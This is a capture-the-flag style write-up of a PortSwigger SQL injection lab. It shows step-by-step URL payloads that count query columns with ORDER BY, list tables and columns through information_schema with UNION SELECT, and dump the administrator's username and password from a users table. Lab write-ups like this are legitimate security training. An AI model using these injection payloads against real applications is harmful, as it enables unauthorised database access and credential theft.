

# Write-up: SQL injection attack, listing the database contents on non-Oracle database
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
 

## Lab description


## Steps

### Enumeration

In this lab, firstly we need to find the number of columns returned by the query. We are also unaware of the database type. Then we need to list the database tables and then a table that contains the user credentials.

To find the number of columns returned by the query, we can use the `ORDER BY` method. We will start with `ORDER BY 1` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we get error at `ORDER BY 3`, which means the number of columns is 2.

The link is like `/filter?category=Gifts'+ORDER+BY+3--`

```sql
' ORDER BY 3--
```

### Solution

Now, to list the database tables, we can use the `INFORMATION_SCHEMA` database. The table `TABLES` contains the table names. We can use the following link to list the tables.
`/Gifts'+UNION+SELECT+table_name,null+FROM+information_schema.tables--`

The query will be like
```sql
SELECT table_name, null FROM information_schema.tables
```

Above query gives a whole lot of tables. We can filter out the tables that contain the user credentials. 
After going through table pg_user, found a unique table `users_zusbow`.

Enumerating this table to find the column names, we can use the following link.
`/Gifts'+UNION+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name='users_zusbow'--`

The query will be like
```sql
SELECT column_name, null FROM information_schema.columns WHERE table_name='users_zusbow'
```

This gives the column names email, username_rwbloj, password_sjurdi. Since we only need the username and password, we can use the following link.
`/Gifts'+UNION+SELECT+username_rwbloj,password_sjurdi+FROM+users_zusbow--`

The query will be like
```sql
SELECT username_rwbloj, password_sjurdi FROM users_zusbow
```

This gives the username and password for `administrator` of the user and hence solves the lab.

